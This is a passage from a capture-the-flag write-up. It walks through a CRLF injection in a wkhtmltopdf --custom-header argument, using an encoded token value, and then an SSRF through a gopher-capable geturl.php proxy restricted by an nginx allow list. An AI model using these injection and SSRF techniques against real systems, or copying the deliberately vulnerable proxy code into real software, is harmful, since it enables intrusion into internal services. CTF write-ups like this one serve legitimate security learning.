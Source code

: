 The command of wkhtmltopdf will look like:

```
wkhtmltopdf.exe
    http://donate.support.balsnctf.com/Donate/ReceiptDetail
    --custom-header Authorization "<token>"
    tempFileName
```

And yes, there is a CRLF injection on `--custom-header`.

If you request this url:
```
http://donate.support.balsnctf.com/Donate/Preview?token=aaaaa%0d%0abbbbb&pdf=1
```

Then you will receive this request:
```
GET /Donate/ReceiptDetail HTTP/1.1
Authorization: Bearer aaaaa
bbbbb
User-Agent: [redacted]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip
Accept-Language: zh-TW,en,*
Host: donate.support.balsnctf.com
```

In this challenge, the domain "donate.support.balsnctf.com" is point to 127.0.0.1 on server by configuring `C:\Windows\System32\drivers\etc\hosts`. That means that we get a SSRF limited on 127.0.0.1:80.

### Step 2: SSRF with Gopher protocol

There is a virtual host "proxy.support.balsnctf.com" on Nginx, it hosts a `geturl.php` that can let you make request to any server with different protocol including `gopher://`

```
<?php
$url = $_POST['url'];
if (parse_url($url)['port'] == 9000) {
    die('blcoked!'); // avoid fastcgi exp
} else {
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_HEADER, false);
    $output = curl_exec($ch);
    curl_close($ch);
    print_r($output);
}
```

The only problem is that the host is only allowed to access from some IPs, e.g., `127.0.0.1`.
```
server {
        listen       80;
        server_name  proxy.support.balsnctf.com;

        # only allowed for private ip
        allow 192.168.0.0/16;
        allow 10.0.0.0/8;
        allow 127.0.0.1;
        deny all;
```
